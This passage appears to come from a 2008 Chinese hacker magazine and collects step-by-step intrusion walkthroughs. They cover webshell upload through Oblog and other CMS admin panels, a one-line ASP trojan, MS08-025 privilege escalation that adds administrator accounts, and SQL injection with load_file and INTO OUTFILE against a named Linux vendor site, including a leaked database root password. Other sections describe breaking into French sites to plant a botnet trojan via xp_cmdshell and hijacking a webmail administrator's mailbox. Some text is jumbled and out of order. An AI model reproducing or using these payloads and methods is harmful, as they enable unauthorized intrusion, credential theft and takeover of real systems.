密码既然已经破解出来了，剩下的就是点“进后台”，然后想办法获取 WEBSHELL 了（图6）。对于 SQL 版本的利用方法基本一样，如果是 SQL 版本，还可以直接添加一个管理员。

接下来我主要总结一下在 Oblog 后台获取 WEBSHELL 的方法：第一个是利用通杀 4.5x 和 4.6x 版本的两个文件数据流漏洞（针对 Win2003 系统），另一个就是利用有缺陷的 4.0x 版本在后台获取 WEBSHELL。


我们进入 Oblog 后台后，在后台首页的系统状态处会看到对方所使用的详细版本信息（图7）。点击系统设置里面的网站信息配置来进入配置页面，找到“上传目录”这项，修改上传目录为 HIXIA.ASP（图8）。看到这儿，可能有小菜已经迫不及待地去寻找上传页面了吧。Oblog 的后台没有直接上传的页面……该网站注册过的用户就会全部显示出来（图9）。

## 一个人的战争


你设置的广告目录/gg_teamtop.htm，在我们测试的这个网站中，文件存放的地址就是 asp.asp/gg_teamtop.htm，其完整的网址就是 http://www.shichang168.com/oblog/asp.asp/gg_teamtop.htm，我们打开浏览一下（图15）。


我们找一个已经审核完的用户，然后点击该用户相应的“进后台”选项，就会跳转进入该用户的后台了。现在只要点击用户后台的“发布日志”，然后再点击“发布日志”页面的“上传文件”（图10），按“浏览”找到我们更改成 TXT 后缀的 ASP 脚本木马，然后点“上传”即可。


可能是网站设置的原因，有可能不会回显出上传后文件的相对地址，遇到这种情况我们可以回到后台的内容管理界面，找到“上传管理文件清单”，你就会发现我们上传的 ASP 木马已经躺在那里了（图11），只要直接在这里点击浏览我们的脚本木马就可以得到 webshell 了（图12）。

除了利用发布日志的上传文件功能得到 webshell 外，我们还可以通过广告管理功能来获取。仍然点击系统设置里面的网站信息配置来进入配置页面，在“上传目录”下有个“广告目录”，我们要利用的就是它。修改广告目录为 asp.asp（图13），然后我们在后台找到“广告管理”下的“群组页面广告管理”，在“群主页页面前广告”的空白框里填入一句话木马 `<%execute request("x")%>`（图14），别忘了保存修改后的结果。

```asp
<%execute request("x")%>
```


www.shichang168.com/oblog/asp.asp/gg_teamtop.htm，密码为 X，然后选择查看服务器信息（图16）。

较通用的就是运气法，选择“用户等级及设置”下的“管理用户等级”（图18），随便找一个等级，然后点击修改，在“上传文件类型”里添加 PHP（图19），对于 ASP、ASPX 等文件类型已经被 Oblog 默认过滤了。


点击 SEND 发送，连接一句话木马成功了，webshell 得到了（图17）。


最后，我们来看一下如何利用有缺陷的 4.0x 版本在后台得到 webshell。因为 4.0x 版本不像 4.5x、4.6x 版本那样可以自己设置上传路径，所以其获取 webshell 的方法比较麻烦。目前，比较可行的方法是通过数据库备份/恢复流程进行覆盖，最终得到可执行一句话木马的备份库并连接 webshell。

而如果我们测试的服务器也正好支持 PHP 的话，就可以根据前边介绍的方法直接上传 PHP 木马了，这种情况对于国内的二线性拦截机制该是比较常见的，反正就是靠运气了。除这三种方法外，还以前的黑客 X 档案里介绍过一种思路：利用 4.0x 版本数据库管理功能不允许自定义备份文件名这一点，通过恢复覆盖原库后再备份，得到含一句话木马的数据库文件，再进行连接。

> （文中涉及到的 Oblog 最新远程漏洞源码及密码工具、Jake2eval 一句话木马，已经收录在光盘中）

## 快手 MS08-025 漏洞的利用


4 月 8 号微软再次发布了一个系统内核的补丁（KB941693），该漏洞影响 Windows 2000/XP/2003/Vista 以及最新的 Windows Server 2008 系统。4 月 12 号 Polymorphous 公布了技术细节和漏洞触发代码，随后出现了演示工具（恢复 SSDT）和溢出程序。经测试，在 Windows XP SP2 系统下普通 user 权限即可成功提权。

ring3 的 Win32 API 和 ring0 的内核 API 联系起来。SSDT 并不只是地址索引表，还包含基址、服务函数个数等信息。主动防御技术实质上改写了 SSDT 表，把原本应由系统处理的函数调用拦截到用户态程序中处理。若要绕过主动防御，通常需把 SSDT 恢复到初始状态；本文利用 MS08-025 内核漏洞可在不加载驱动的情况下直接恢复 SSDT。

### 一、突破主动防御

主动防御是当前多数杀毒软件用于阻止恶意程序执行的一种技术。相比传统“特征码查杀”和“监控”，其可在病毒发作时主动拦截。完整的主动防御通常包含资源访问规则控制、资源访问扫描、程序活动行为分析引擎等层次；当程序运行时，系统将其 API 行为与预设规则比较，若出现木马或病毒行为则拦截并提示用户。

通过超级巡警补丁检查和 SSDT 检查（需 administrator 权限）可发现未打 MS08-025 补丁且内核函数被 HOOK。运行演示程序 ByPassHIPS with MS-08-025 或 MS08025_RestorSSDT 后，SSDT 可被恢复。需要注意 ByPassHIPS 不能在虚拟机运行；恢复成功后，利用 HOOK 内核的主动防御和 HIPS 会失效，但采用 DLL 加载技术的安全软件通常仍可能留下运行记录。

## 一个人的战争

| 级别 | 安全公告 | 补丁名称 | 漏洞名称 | 发布时间 |
|---|---|---|---|---|
| 严重 | MS08-023 | KB948881 | ActiveX 相关安全更新 | 2008-4-8 |
| 重要 | MS08-020 | KB954155 | DNS 客户端中的漏洞可能允许远程代码执行 | 2008-4-8 |
| 重要 | MS08-025 | KB941693 | Windows 内核中的漏洞可能允许权限提升 | 2008-4-8 |

| 安全等级 | 应用程序名 | 最新版本 | 漏洞名称 | 发布时间 |
|---|---|---|---|---|
| 严重 | QuickTime | 7.4 | Apple QuickTime RTSP 响应远程栈溢出漏洞 | 2007-11-23 |
| 严重 | Flash Player | 9.0.115.0 | Adobe Flash Player 处理 PNG 溢出漏洞 | 2007-12-18 |
| 严重 | Flash Player | 9.0.124.0 | Adobe Flash Player 远程漏洞 | 2008-04-08 |


### 二、提权

提权工具是由 vcssial 给出的，使用方法非常简单，参数只需要输入想执行的 cmd 命令或程序（包含路径）就行。例如在 cmd 命令提示符下执行“ms08025.exe a.bat”，而 a.bat 文件中的内容为“net localgroup administrators yn /add”。运行后 yn 用户就已经被添加到管理员组中了，如图 5。此时系统需要注销后才能生效，因此我们最好将 a.bat 中的内容换为“net user hack hack /add&net localgroup administrators hack /add”（可以将 hack 更改为自己想要的用户名和密码），或者按个人习惯写为你准备好的后门程序。由于该溢出程序运行多次会导致蓝屏，所以最好是使用类似 a.bat 这样的方式来执行。


### 三、扩展

在实际的应用过程中，我们可以将恢复 SSDT 和溢出程序结合起来，先运行 MS08025_RestoreSSDT，再运行 MS08025 提权。例如当你入侵服务器后，可以在 shell 下先执行 MS08025_RestoreSSDT，再执行“MS08025 执行程序或后门程序”，这样直接就可以得到系统控制权限了。由于 MS08025_RestoreSSDT 的运行要求限制，大家可以使用进程注入机制的木马。除此之外，还可以配合第三方软件的漏洞来进行大范围的传播。例如某日公布了 Real Player 的一个最新漏洞，随后即可结合漏洞利用代码进行批量攻击。由于该漏洞与 rmoc3260.dll ActiveX 控件相关，攻击脚本可通过网页触发执行。若攻击成功，系统权限可能被提升，从而便于后续植入程序与维持控制。鉴于这类漏洞危害较大，建议尽快打补丁以确保系统安全。

> （文章中涉及到的 SSDT 恢复程序以及 MS08025 本地溢出程序等，已经收录在光盘中）


### 什么是远程控制

使用本地电脑通过网络远程控制另一台电脑，可以在远程电脑上实现本地的大部分操作，这就是远程控制。完成这个功能的软件通常被称作远程控制软件。从功能上来讲，远程控制软件与木马程序几乎是一样的，但它们的区别就在于远程控制软件是为了管理员更好地维护管理远程电脑而出现的，而木马程序是以非法的远程控制别人电脑为目的的。因此，远程控制软件通常是不会被杀毒软件所查杀。远程控制软件的功能通常都非常强大，但木马的服务端程序为了不让自己被查杀，隐蔽性通常都非常好。

## 侦破西秦良精通用企业建站系统

EchoEye / 侯其涛（B.B.E）

> 【提示框】文章围绕“西秦良精通用企业建站系统 v2009”的安全问题展开，说明该系统存在可被利用的注入漏洞。

良精多语言多风格建站系统号称完善设计的公司企业建站程序……经过测试发现，该系统（首页标价较高）仍存在不少安全漏洞。

### 一、SQL 注入漏洞

第一个 SQL 注入漏洞发生在 shownews.asp 文件中，关键代码如下：

```asp
id=cstr(request("id"))
Set rsnews=Server.CreateObject("ADODB.RecordSet")
sql="update news set hits=hits+1 where id="&id
conn.execute sql
sql="select * from news where id="&owen
```

可见参数 id 未经过滤就参与数据库查询，存在明显注入风险。文中继续说明了通过 cookie 方式绕过过滤并实施注入的过程。


运行 EchoEye's SQL Injection 工具后，进入“COOKIE 注入”界面；文中依次说明漏洞地址、参数名、占位字符与参数值的填写方法。

右栏继续说明：示例地址为 `127.0.0.1/shownews.asp?id=49`，填写参数后点击“开始注入”，再输入需要猜解的字段（如 `admin`、`username`、`password`）以获取账号密码信息。


## 一个人的战争

第二个 SQL 注入漏洞是出现在 UserEditPwd.asp 文件里（这是一个修改用户密码的文件），关键代码如下：

```asp
Action=trim(request("Action"))
UserName=trim(request("UserName"))
' 省略部分代码
if Action="Modify" and UserName<>"" then
  Set rsUser=Server.CreateObject("Adodb.RecordSet")
  sqlUser="select * from [User] where UserName='" & UserName & "'"
  rsUser.Open sqlUser,conn,1,3
end if
```

很显然 UserName 只过滤了空格便放入了数据库进行查询，这样漏洞就产生了。这次是字符型注入。作者演示了通过构造 `Action=Modify&UserName=5555' and '1'='1`、`...and '1'='2` 等语句进行判断，并说明可借助工具继续利用。


第三个注入漏洞出现在 News_search.asp 文件中，关键代码如下：

```asp
key=Trim(request("key"))
otype=Trim(request("otype"))
BigClass=request("BigClass")
' 省略部分代码
if otype="title" then
  sql="select * from news where title Like '%"&key&"%' order by id desc"
else
  sql="select * from news where content Like '%"&key&"%' order by id desc"
end if
rs.open sql,conn,1,1
```

```asp
order by id desc'
end if
rs.open sql,conn,1,1
```

从代码中可以看到，key 没有经过过滤就进行了数据库查询，因此造成注入漏洞。这是一个搜索型注入，示例通过在搜索参数中输入特定值并比较返回页面差异来判断漏洞存在。


文中继续分析 URL 参数（含编码后的“搜索”），并给出手工构造注入语句的方法：调整参数顺序、将 key 放到最后、用 `and 1=1` 与 `and 1=2` 进行页面差异验证；随后说明如何在工具中填写各栏位实施搜索型注入。

### 二、跨站漏洞

跨站漏洞出现在留言簿相关位置，漏洞文件为 Feedbacksave.asp，关键代码为：

```asp
Add=trim(request.form("Add"))
Postcode=trim(request.form("Postcode"))
Mobile=trim(request.form("Mobile"))
Fax=trim(request.form("Fax"))
email=trim(request.form("email"))
Language=trim(request.QueryString("Language"))
' 省略部分代码
Set rs = Server.CreateObject("ADODB.Recordset")
sql="select * from Feedback"
rs.open sql,conn,1,3
rs.addnew
' 省略部分代码
rs("CompanyName")=trim(request.form("CompanyName"))
rs("Add")=Add
rs("Postcode")=Postcode
rs("Receiver")=trim(request.form("Receiver"))
rs("Phone")=trim(request.form("Phone"))
rs("Mobile")=Mobile
```

```asp
rs("Fax")=Fax
rs("email")=email
rs("title")=trim(request.form("title"))
rs("content")=htmlencode2(request.form("content"))
rs("Publish")=trim(request.form("Publish"))
if language="ch" then
  rs("Language")="0"
else
  rs("Language")="1"
end if
rs("time")=date()
rs.update
rs.close
```


在这里 Add、Postcode、Fax、email 等均没有过滤，我们只要在“主题”和“E-mail”中填写跨站代码即可。访问 `http://127.0.0.1/Feedback.asp` 可在前后台留言管理处触发。

接着到“系统管理”-“数据库备份”，在“当前数据库路径”填写 `../uploadFiles/200841223951698.jpg`，在“备份数据库名称”填写 `1.asp`，备份后可通过 `http://127.0.0.1/admin/Databackup/1.asp` 访问木马。


到此，某企业建站系统 v2009 的漏洞介绍完毕。总体来说该系统漏洞较多，安全性较弱，希望后续能够改进。

我们可以直接挂马（作者不建议）。可进入后台“系统管理”-“管理员管理”添加管理员，再在留言处填写相关地址以触发。

### 三、后台拿 WebShell

由于后台有数据库备份且对备份后缀与文件名限制不足，容易将木马备份到可访问目录。选择“企业信息”-“新增企业信息”，上传图片木马并配合代码触发。

### 黑客木马学习

#### 什么是特征码

程序运行时在内存中执行的连续指令片段可形成“特征码”。杀毒软件常通过特征码识别病毒；修改特征码可绕过部分基于特征的检测。

## 一个人的战争


### 和我一起入侵法国网站

□ 清凉长风

大家都知道上个月奥运火炬在法国传递时所发生的事情吧，作为一个爱好黑客技术的热血青年，我们有自己的爱国方式，所以五一放假期间我把入侵的目标锁定在了法国的网站上。在入侵前我们最好找一个网速快的电脑哦，毕竟目标是地球的另一边，要是有高速互联网络的 VPN 的话就更好了！

打开 Google，我们要利用它来寻找存在注入漏洞的网站。法国网站的国家域名为 fr，但如果我们单纯构造“inurl:fr inurl:asp?id=”的话，找出来的注入链接利用价值不是很大，所以一定要加上一些关键字进行搜索，而关键字最好是法文的。比如我们要搜索和大学相关的网站，那么就先利用 Google 的语言工具将“University”翻译成法文。Google 已提供了中文简繁互相转化和中文翻译为英语两种功能，我们先将中文关键字翻译成英文，再把英文翻译成法文关键字，如图 1。


把关键字结合起来就成了“Université inurl:edu.fr inurl:asp?id=”，使用 Google 的高级搜索设置每页显示 100 项结果，然后直接将浏览器里的地址放入啊 D 中，几秒钟后就检测出了许多存在注入的链接，如图 2、图 3。


我们选择一个链接使用啊 D 进行检测，居然是 MSSQL 数据库，还是 DB_owner 权限呢，看来得到 webshell 应该是十分简单了，如图 4。看到 DB_owner 后我首先想到的就是寻找网站路径。过了几个小时的工作，招数没有成功，不过通过列目录，发现 C 盘和 E 盘可以浏览，D 盘却不能（根据经验，应该是备份盘，不晓得法国人的思维是否一样）。


经过一番寻找，终于找到了网站的目录 `E:\wwwroot\dev2-Amiens\Site`，如图 5。利用啊 D 自带的备份功能上传一句话木马，保存为 `E:\wwwroot\dev2-Amiens\Site\zoo yi.asp`，进行连接，成功拿到了 webshell，如图 6。我在 webshell 里看了下，能利用 WScript 执行简单的 cmd 命令，还开启了 3389（虽然是开启了但估计也连不上的），没有 pcAnywhere 和 radmin，也没有 Serv-U，看来法国人不喜欢这些东西。不过也不用担心，这个网站不是使用的 MSSQL 数据库吗，那我们就找找 MSSQL 的连接密码，说不定运气好的话还能得到个 sa 呢！又是一番苦找，在查找过程中还发现了 PHP 的影子，如图 7，不过没见有 PHP 的环境，也没有开启 3306 端口，当然也没有 php.ini 了。踏破铁鞋无觅处，最终还是被我找到了 MSSQL 的连接文件，里面居然有可爱的 sa，如图 8，不过在使用 MSSQL 连接器进行连接时，却无法连上，这倒也正常，毕竟人家是远在法国嘛！


图5

连 sa 都得到了总不至于放弃吧，利用的方法还有很多。上传一个“十三”的 asp 木马，我们要利用里面的数据库连接功能，选择 MSSQL 连接形式，填上数据库名、用户名和密码，连接成功，现在可以执行脚本了。xp_cmdshell 是大家最喜欢的，先判断其存在。由于 3389 也连不上，所以添加用户就显得意义不大了，我决定直接上传木马然后利用命令执行。我将一个免杀的木马放在 `E:\wwwroot\dev2-Amiens\Site\zoo\` 目录下，使用命令来运行它：`Exec Master..Xp_CmdShell 'E:\wwwroot\dev2-Amiens\Site\zoo\muma.exe'`，如图 9。不一会儿在我的上线里就多了一台肉鸡了，遗憾的是网速太慢，根本看不了桌面，如图 10。


图6


图9


图7


图10


图8

这个法国网站的入侵过程就到这里了。法国网站的漏洞还是很多的，只是不能按平时的习惯思考了，比如很多网站的后台会使用叫 D 盘目录下根本就挖不到。还有一点就是法国网站有注入点的链接一般都是 MSSQL 数据库，很少见到是 Access 数据库。而 MSSQL 数据库一般都是 DB_owner 权限，当然人品好的话也有直接是 sa 权限的。另外一点，就是在 Google 中输入的关键字还可以自由发挥，比如使用“Université inurl:edu.fr inurl:asp?id=”或者“Université inurl:fr inurl:mdb”直接搜索并下载 mdb 也是很不错的哦！当然关键字还可以改成别的，最好是和 Government 有关了，不过也别做得太过分，挂个 I love china 就差不多了。

> （文章中涉及到的啊 D 注入工具已经收录在光盘中）

### 简简单单玩 SMSJ V8.0 目录漏洞

昨天在冷淡的 blog 上看到了 SMSJ V8.0（商贸世界）的注入漏洞，听说这套系统的名声还是挺大的，于是就下载了一套 SMSJ V8.0 回来。我简单说下这个漏洞产生的原因：这套贸易系统允许用户以个人会员或企业会员来注册，在以企业会员注册成功后就可以登录后台上传图片，此时就会在网站目录下的 UserDocument 目录下建立一个和注册用户名相同的目录，上传的图片就存放在这个目录中。看到这儿，相信大家都会想到如何利用了吧。要是我们注册的用户名是 xxx.asp 形式，而服务器又恰好是 IIS 6.0 的话，那么就可以重现以前那个 IIS 6.0 错误地把 xxx.asp 目录下的文件解析为 asp 的漏洞了。

我查看了一下代码，这次的问题刚好是出在注册文件 reg.asp 中：

```asp
function checkdata()
if (isNumberString(addform.user, value, "1234567890..."))
abcde/fghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ...
```

## 一个人的战争

```javascript
if(addform.user.value.length<2 || addform.user.value.length>16){
  alert("用户注册出错，下面是产生错误的可能原因\n\n用户名必须是2-16位的数字、英文或下划线")
}
```

通过上边的代码可以得知，程序对注册的用户名有三个限制条件：字符范围、长度限制（大于 2 且小于 16）等。作者说明可通过抓包等方式绕过前端限制，并继续介绍一种更简单直接的方法。

我们打开 Google 或百度，以“Powered by SMSJ Version 8.0”为关键字搜索使用该系统的网站，进入“注册”并选择“企业会员注册”（图1），随后进入资料填写页，即 reg.asp 漏洞页面（图2）。


在页面上点右键选择“查看源代码”，有两处地方需要修改：一处是调整用户名校验字符集合/逻辑，另一处是修改提交地址。

```javascript
if((addform.user.value.length<2 || addform.user.value.length>16)...){
  alert("用户注册出错，下面是产生错误的可能原因 ...")
}
```

另一处是修改提交地址，把相对地址改为绝对地址（如 `action="http://www.558618.cn/reg_save.asp"`）。两处改完后另存为 html 并打开，填写注册信息（如 clzzy.asp），注意注册类型选择试用型（图4）。


填写后提交，提示注册成功。随后用刚注册的账号登录（图5），进入后台“我的公文包”－“我的图片”，上传修改后的脚本文件（如将 asp 改为 jpg），再访问上传文件并提交参数，最终可获得 webshell（文中后续图6～图8）。


## 我是如何入侵红旗Linux网站的

### 毒药

红旗Linux是由北京红旗软件技术有限公司开发的Linux发行版，也是中国大陆比较成熟的Linux发行版。昨天在VM里测试本地溢出的时候，使用的就是它，可惜没有成功，难道说是它较安全吗？今天我就来检测一下他们的网站，看看安全性如何。

根据上边的返回情况，我们初步可以判断确实存在漏洞，而且是字符类型的注入漏洞，因为我提交的数据被执行了。继续来判断数据库的类型，和PHP搭配的一般都是MYSQL数据库。提交 `http://www.redflag-linux.com/xxx/xxx.php?xx=1435'/*`，返回正常，可以确定是MYSQL的数据库了，因为“/*”是MYSQL中的注释符号。如图3。我初步判断是遇到了传说中的LAMP（LINUX APACHE MYSQL PHP）。

随便打开一个链接 `http://www.redflag-linux.com/xxx/xxx.php?xx=1435`，分别提交 `'and 1=1'` 和 `'and 1=2'`，都返回了正常的页面，似乎不存在漏洞，真的就没有漏洞吗？我们继续提交 `'' and '1'='1` 和 `'' and '1'='2`，一个返回了正常页面，一个返回了错误页面，如图1、图2。

来确定数据库的版本是不是4.0以上，是的话就可以利用UNION查询以方便我们获取数据。提交 `http://www.redflag-linux.com/xxx/xxx.php?xx=1435' and ord(mid(version(),1,1))>51/*`，“ord(mid(version(),1,1))”就是取出数据库版本信息的第一个字符并转换成ASCII的形式，51是3的ASCII值，大于3当然是4.0以上了。结果返回正常，如图4。数据库版本是4.0以上，可以使用UNION查询。


对于UNION查询，UNION前后SELECT字段的类型和数量必须是匹配，否则就会出错。继续来匹配字段的数量，提交 `http://www.redflag-linux.com/xxx/xxx.php?xx=1435' order by 10 /*`，返回正常，说明字段的数量大于等于10。提交到 `order by 15 /*` 时返回了异常，说明字段的数量小于15。直到 `order by 12 /*` 返回正常，`order by 13 /*` 返回异常，说明字段的数量是12，如图5。

继续提交 `http://www.redflag-linux.com/xxx/xxx.php?xx=1435' and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12 /*`，可以看到下面出现了好多数字，这里就是我们下面得到数据显示的地方，如图6。

在MYSQL中，可以使用各种MySQL内置的函数，经常使用的有 DATABASE()、USER()、SYSTEM_USER()、SESSION_USER()、CURRENT_USER() 这些函数来获取一些系统的信息。还有一个应用得比较多的函数，就是 load_file()，该函数的作用是读取文件内容，并将文件内容作为一个字符串返回。

也可以把上面URL里 version() 换成别的函数来得到其它的系统信息。

先来查找一下后台，免得等我们猜到管理员密码却找不到后台那才叫郁闷呢。直接在网站根目录下输入 admin，弹出了登录的对话框，既然后台已经找到了，那来猜表吧。可惜，几乎把所有常用的表都猜完了也没有猜到正确的表名。看来要想凭空去猜表名不可行了，此路不通。记得我在前面提到过 load_file() 这个函数，这个函数可以读取文件内容，但也是有条件限制的：要读取的文件必须在服务器上，必须指定文件完整的路径，必须有权限读取并且文件必须完全可读，要读取文件必须小于 max_allowed_packet，如果该文件不存在或因为上面的任一原因而不能被读出，函数返回空。这也就是很多人经常读不出文件内容的原因所在。

既然是Linux的服务器那我们先尝试读下 `/etc/passwd` 文件，首先要把 `/etc/passwd` 转换为16进制的形式，转化以后为 `0x2F6574632F706173737764`，提交 `http://www.redflag-linux.com/xiazai/xiazai.php?id=1435' and 1=2 union select 1,2,load_file(0x2F6574632F706173737764),4,5,6,7,8,9,10,11,12 /*`，如图8。


提交 `http://www.redflag-linux.com/xxx/xxx.php?xx=1435' and 1=2 union select 1,2,version(),4,5,6,7,8,9,10,11,12 /*`，得到数据库的版本信息为4.1.10a，如图7。

好极了，读出了文件的内容，如果我们知道网站的路径，就可以尝试读取网页的代码，里面很有可能就隐藏着管理员的密码。可是网站的路径怎么能知道呢？很多时候PHP的错误提示会暴出网站的绝对路径，但这里我没有找到任何错误提示信息，当然此路不通。我再告诉大家一些绝不外传的东西，一般人我不告诉他的。

- `load_file()` 查看常用的一些配置文件：
- `/usr/local/app/apache2/conf/httpd.conf` // apache2配置文件
- `/usr/local/apache2/conf/httpd.conf`
- `/usr/local/app/php5/lib/php.ini` // PHP相关设置
- `/usr/local/app/apache2/conf/extra/httpd-vhosts.conf` // 虚拟网站设置
- `/etc/my.cnf` // mysql的配置文件
- `/etc/redhat-release` // 系统版本
- `/etc/sysconfig/iptables` // 从中得到防火墙规则策略
- `c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini`
- `C:\Program Files\Serv-U\ServUDaemon.ini`
- `c:\windows\my.ini`
- `/etc/issue` // 登录的提示信息，可以确定系统的类型
- `/etc/httpd/conf/httpd.conf` // 里面很有可能包含网站的绝对路径


在我读取 `/etc/httpd/conf/httpd.conf` 的时候，意外地发现了一些有用的信息，还是把它转换为16进制，然后放到 load_file() 函数里面，如图9。

在里面找到了“DocumentRoot /var/xxx/xxx/ ServerName www.redflag-linux.com”，它的值就是网站的绝对路径了。既然已经知道了网站的绝对路径，那就来读取网站的代码吧。网站首页的绝对路径就是 `/var/xxx/xxx/index.php`，同样转化为16进制，放入 load_file() 函数，如图10。


从上面的信息中可以知道包含了 `Login.inc` 文件，从文件名很容易想到可能包含了登录的一些配置信息，另外还得到了一个名为 `redflagadmin` 的表，估计就是存放管理员数据的了。使用上面的方法继续读文件 `Login.inc`，最后找到了sql的连接信息“sql_connect(localhost','root','oiayf3g')”，连上包含了MYSQL的ROOT密码。太好了，如果能直接连接进去，权限允许的话使用MYSQL直接备份个木马上去就可以了。

```mysql
mysql -u root -h 220.194.60.88 -p
```

我们打开本地的cmd，执行上述命令，然后输入密码，意料之中的事情，这个账户不允许外部连接，如图11。此路不通，还是老老实实地猜表，登录后台，然后再想办法得到WEBSHELL吧。


前面我们在读文件的时候看到了名为 `redflagadmin` 的表，如果知道了表中字段的名字，就可以利用UNION查询直接得到管理员的信息了。提交 `http://www.redflag-linux.com/xiazai/xiazai.php?id=1435' and 1=2 union select 1,2,admin,4,5,6,7,8,9,10,11,12 from redflagadmin/*`，返回正常，说明存在 admin 列；提交 `...password...` 返回错误，说明不存在 password 列；提交 `...passwd...` 返回正常，说明存在 passwd 列。得到这些信息后继续构造联合查询。

和密码，如图12。想也没想赶紧拿着去登录吧，悲哀呀，怎么还是进不去呢，难道是人品问题？开始以为密码是被加密的，可是读了半天PHP代码也没有发现在哪儿加的密，最后我就自己找了个勉强可以接受的原因来安慰我倍受打击的心灵：管理员做了IP限制。


看似事情到这里就应该结束了，眼看到手的SHELL就是拿不到，看来人品这几天真的出了问题，得找个时间去算算命了。顺手拿起本书乱翻，突然想到了MYSQL中可以利用的还有一个 `select into outfile ''`，不过这个要求文件的绝对路径必须在 `''` 之间。很多PHP中 `magic_quotes_gpc` 设为 on 或者变量前使用了 `addslashes()` 函数，提交的 `'` 会被转化为 `\'`，这样的话这个函数就无法利用了。可是在这里，我们知道是字符类型的注入漏洞，我们在前面提交的 `'` 没有被转化，否则前面测试就没有意义了。

```text
http://www.redflag-linux.com/xiazai/xiazai.php?id=1435' and 1=2 union select 1,2,'111',1,1,1,1,1,1,1,1,1 into outfile '/tmp/sang.php'/*
```


```text
com/xiazai/xiazai.php?id=1435' and 1=2 union select 1,2,
load_file(0x2F746D702F73616E672E706870),4,5,6,7,8,9,10,11,12 /*
```

“0x2F746D702F73616E672E706870”为 `/tmp/sang.php` 的十六进制，分别返回如图13、图14，看来数据是写进去了。那还等什么，利用上面的方法在网站目录写个小马进去，然后利用客户端进行连接，如图15，再传个大马过去，如图16，一切就这么搞定了。

作为一次脚本渗透的详细过程，到这里就结束了，没什么技术含量，就是帮大家回顾一下PHP注入的一些基础知识，有什么不对的地方还请高手指正。（文章中涉及到的进制转换工具和 c99shell 已经收录在光盘中）

## 菜鸟入侵之 winwebmail 和 dvbbs asp.net


刚开始只是想练习一下新学习的东西，于是就随便找了个网站，PING域名后得到其IP地址，然后在网站信息查询中发现有很多个站点在服务器上面，这么多的站点不可能没有漏洞的，就这样很简单地搞到了一个 webshell。

通过 webshell 了解到该服务器的基本情况如下：一共有四个分区 C、D、E、F，C盘可以去看，但其它盘都不行，也跳不到其它的目录里。服务器支持 PHP、JSP 和 ASP，安装有 MYSQL4.0 和 MSSQL2000，但是却找不到 ROOT 和 SA 的密码，另外还安装有 SERV-U 6.3，偶然间管理员把密码已经改过，并且目录也不可以访问。

最后我在 `C:\Documents and Settings\All Users\「开始」菜单\程序` 下找到了 WINWEBMAIL3.7，它指向的是 `E:\WINWEBMAIL`。这个东西研究过，一般它要求 Everyone 完全控制，在有 webshell 的配合下，只要有其中一个用户账号就可以进入任意用户邮箱，甚至包括管理员的。下面我们就看看能不能利用这个漏洞来进入管理员邮箱找一些有用的信息。

首先跳转到 `E:\WINWEBMAIL` 目录下，下载 popusers.ini 文件，这个文件里保存着所有邮箱用户的账号和密码，当然密码都是加密过的，如图1。注意看图中我标注的那几处，它们的账号虽然不同但却有相同的加密密码，这很有可能是当初管理员建立账号时分配的密码。根据经验，这个密码应该不会太复杂。经过几分钟的检测，得到密码为 000000。

好了，我们便进入一个邮箱，选择“选项”→“密码修改与账号保护”，然后设置账号保护问题和答案，保存退出，如图2。


在 webshell 中将 `E:\WinWebMail\mail\bfdq@dlbf.com`（刚才设置的那个邮箱）\UserWeb.ini 文件复制到 `E:\WinWebMail\mail\admin`（管理员邮箱）目录下（记住要先备份原来的 UserWeb.ini，等操作完毕再恢复过来），然后在登录页面选择“忘记密码”，填上管理员的账号，回答刚才自己设置的问题和答案，就能够进入管理员的邮箱了，如图3。

\目录下，不就可以不用猜账号密码了吗，或者是直接编辑 `E:\WinWebMail\mail\admin`（管理员邮箱）\UserWeb.ini 文件呀。想法不错，我测试了一下，但都没有成功，还希望有高手给指点一下。把帖子发布了，然后再查看帖子，收附件，在“我的收藏夹”里就可以看到时分秒了，如图8。


图3


图5

我在管理员邮箱里翻了几分钟，除了垃圾邮件外什么也没有，有点儿不甘心，决定使用嗅探来看看能否得到些什么。嗅探的话就要找同网段的主机，过程很简单就不浪费版面了。在入侵其中一个站点的时候遇到了一个 DVBBS asp.net1.1 版论坛，居然有个管理员的弱口令，成功进入后台直奔论坛数据库备份页面，可一看就知道没戏，如图4。


图4


图6


图7

这是一个魔兽私服的论坛，人气挺旺的，我退了出来，从网上下载了一套相同版本的 DVBBS asp.net1.1，在本地搭建了一个测试环境，终于找出了解决的方法。

首先在“文件管理”－“附件参数设置”里添加上传 ASP 类型文件，如图5；然后在“用户管理”－“用户组（等级）管理”里编辑管理员基本权限，如图6，同样在“允许上传附件类型”处添加上传 ASP 类型文件，这样前台管理员就可以上传 ASP 文件了，如图7。

上传完毕后就是查找位置了，从上图可以知道大概的位置是 `files\uploadfiles\` 当月文件夹里，我上传后的位置是 `files\uploadfiles\200805`。到该目录里一看，文件名变成了 `20080504_084511_140.asp`，这样的文件名好像有点儿难猜。我又上传了几个文件，终于发现了规律：年月日_时分秒_XXX.asp，XXX 是 0 到 999 的随机数字。年月日还好，要怎么得到上传时服务器上的时分秒呢？这里有个简单的方法，就是把你刚才那个帖子发布了，然后再查看帖子、收附件，在“我的收藏夹”里就可以看到时分秒了，如图8。

最后要解决的就是 XXX 了。我的方法是使用迅雷，具体操作就是打开迅雷，设置“最多同时进行的任务数”到最大，“限制重复次数”为 1，在“新建批量任务”的 URL 栏里填 `http://192.168.0.1/dvnet/files/uploadfiles/200805/20080504_084511_(*) .asp`，而“*”选择从 0 到 999，通配符长度为 1，如图9，然后就让迅雷慢慢下载吧，很快就下载好了，如图10。

## 一个人的战争

图8

图10

图9

图11

这样，我们就得到 webshell 的地址为 `http://192.168.0.1/dvnet/files/uploadfiles/200805/20080504_084511_140.asp` 了，访问一下，webshell 终于出来了，如图11。把在本地上测试的步骤搬到服务器上又重新弄了一遍，同样得到了 webshell。

## 对“菜鸟之‘垃圾桶’里挖宝贝”一文的补充

牛晓东

在上期杂志的“菜鸟之‘垃圾桶’里挖宝贝”一文中，介绍了在 IE 缓存中复制防下载影音文件的方法，通俗易懂且实用。笔者在实际研究中也采用了类似思路，并对其中步骤做一些补充说明。

- 文中未提及“垃圾桶”即 IE 缓存目录的系统隐藏属性。默认状态下在“我的电脑”中无法直接看到（例如 `C:\Documents and Settings\用户名\Local Settings\Temporary Internet Files\`）。可在“工具→文件夹选项→查看”中勾选“显示系统文件夹的内容”以及“显示所有文件和文件夹”，即可顺利找到缓存文件夹。
